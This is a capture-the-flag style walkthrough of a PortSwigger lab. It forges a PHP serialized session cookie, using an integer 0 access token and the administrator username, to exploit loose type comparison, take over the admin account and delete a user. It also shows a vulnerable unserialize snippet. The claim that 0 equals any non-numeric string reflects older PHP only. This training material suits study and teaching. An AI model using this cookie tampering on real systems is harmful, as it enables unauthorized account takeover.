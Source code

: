 # Lab: Modifying serialized data types

 This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete Carlos.

You can log in to your own account using the following credentials: wiener:peter 

**Hint**

To access another user's account, you will need to exploit a quirk in how PHP compares data of different types.

# Notes from Portswigger:

## Modifying data types

 We've seen how you can modify attribute values in serialized objects, but it's also possible to supply unexpected data types.

PHP-based logic is particularly vulnerable to this kind of manipulation due to the behavior of its loose comparison operator (`==`) when comparing different data types. For example, if you perform a loose comparison between an integer and a string, PHP will attempt to convert the string to an integer, meaning that `5 == "5"` evaluates to *true*.

Unusually, this also works for any alphanumeric string that starts with a number. In this case, PHP will effectively convert the entire string to an integer value based on the initial number. The rest of the string is ignored completely. Therefore, `5 == "5` of something" is in practice treated as `5 == 5`. 

This becomes even stranger when comparing a string the integer `0:`

```php
0 == "Example string" // true
```


Why? Because there is no number, that is, 0 numerals in the string. PHP treats this entire string as the integer `0`.

Consider a case where this loose comparison operator is used in conjunction with user-controllable data from a deserialized object. This could potentially result in dangerous logic flaws. 

```php
$login = unserialize($_COOKIE)
if ($login['password'] == $password) {
// log in successfully
}
```

 Let's say an attacker modified the password attribute so that it contained the integer `0` instead of the expected string. As long as the stored password does not start with a number, the condition would always return `true`, enabling an authentication bypass. Note that this is only possible because deserialization preserves the data type. If the code fetched the password from the request directly, the `0` would be converted to a string and the condition would evaluate to `false`.

Be aware that when modifying data types in any serialized object format, it is important to remember to update any type labels and length indicators in the serialized data too. Otherwise, the serialized object will be corrupted and will not be deserialized. 

# Step 1 Login and inspect the session mechanism

When I login, I get a session cookie that decodes to a serialized object:

![image](https://user-images.githubusercontent.com/83407557/213519933-a59862d1-e3e4-4d2e-9bca-8b95a2e96009.png)


# Step 2 breakdown the decoded cookie:

Taking a look at the decoded cookie, lets break-down what each part means

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"yl39nsun020qly1w1uy03cxalj4i0pii";}
```

`O:4:"User":2` - An object with a 4-character class name of "User" with 2 attributes

`s:8:"username"` - The first attribute's key is an 8-character long string "username"

`s:6:"wiener"` - The first attribute's value is a 6-character long string "wiener"

`s:12:"access_token"` - The second attribute's key is a 12-character long string "access_token"

`s:32:"yl39nsun020qly1w1uy03cxalj4i0pii"` - The second attribute's value is a 32-character string "yl39nsun020qly1w1uy03cxalj4i0pii"

# Step 3 Change the data-type of second attribute's value

From the notes, I see that if the PHP code is comparing strings to see if I have a valid access_token, if I change the value of my access_token to the integer `0` it could be compared to a string that has no integers; therefore the result should be true. To do this I want to change:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"yl39nsun020qly1w1uy03cxalj4i0pii";}
```
to this ( the string becomes an integer, 0)

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}
```

I then also need to change my username to administrator:

```bash
└─$ python -c 'print(len("administrator"))'     
13                    
```


```php
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
I also want to change the name of the request parameter "id"

![image](https://user-images.githubusercontent.com/83407557/213525933-97cfb498-8c92-4948-a1c0-26fa49498641.png)

Doing so gets me into the admin pannel:

![image](https://user-images.githubusercontent.com/83407557/213526022-e12f7f44-7ac4-47a5-905c-fd9319fbfd76.png)

I do this again on the admin panel:

![image](https://user-images.githubusercontent.com/83407557/213526505-5a816a97-ea91-4d95-8da3-8c9a15808654.png)

And then again to delete carlos:

![image](https://user-images.githubusercontent.com/83407557/213526762-46e0ab37-d4de-49a8-92d6-2cdf283db458.png)

And in doing so the lab is solved:

![image](https://user-images.githubusercontent.com/83407557/213526846-66588249-cc7b-423d-ad76-45ecbfa6c826.png)
